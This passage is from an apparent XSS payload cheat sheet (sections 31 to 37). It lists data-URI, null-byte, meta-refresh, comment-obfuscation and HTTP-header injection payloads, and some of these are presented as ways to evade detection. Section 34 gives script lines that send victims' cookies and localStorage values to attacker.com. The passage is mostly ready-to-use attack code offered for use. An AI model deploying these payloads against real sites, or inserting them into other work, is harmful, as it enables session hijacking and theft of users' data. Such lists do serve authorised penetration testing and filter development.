 ### **31. Data URIs for XSS Payload Delivery**
Using data URIs to deliver XSS payloads.

```html
<img src="data:image/svg+xml;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+">
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></iframe>
<a href="data:text/html,<script>alert('XSS')</script>">Click me</a>
```

### **32. Null Byte Injection**
Use null bytes to terminate strings early or confuse parsers.

```html
<script\x00>alert('XSS')</script>
<img src="x" onerror="alert(String.fromCharCode(0x00))">
```

### **33. XSS via Metadata Tags**
Using `<meta>` tags in certain scenarios to trigger XSS.

```html
<meta http-equiv="refresh" content="0; url=javascript:alert(1)">
<meta charset="utf-7"><script>alert('XSS')</script>  // Works with old IE browsers
```

### **34. XSS Payloads Using Document and Window**
Using JavaScript window and document objects to extract sensitive information.

```html
<script>document.location='http://attacker.com?cookie='+document.cookie</script>
<script>window.open('http://attacker.com/?cookie='+document.cookie)</script>
<script>new Image().src='http://attacker.com/log?key='+localStorage.getItem('user_key');</script>
```

### **35. XSS Using JavaScript Comments**
Comment-based payloads to make detection more difficult.

```html
<script>/*alert('XSS')*/alert(1)//</script>
<!--<img src="x" onerror="alert('XSS')">-->
<script>//<!--alert('XSS')</script>
```

### **36. Blind XSS in Headers**
Often useful in APIs where headers are rendered directly in logs.

```
User-Agent: "><script>alert('XSS')</script>
Referer: javascript:alert('XSS')
Content-Type: text/html;charset=UTF-7
```

### **37. SVG and XML Entities Abuse**
Payloads that leverage SVG and XML entities.
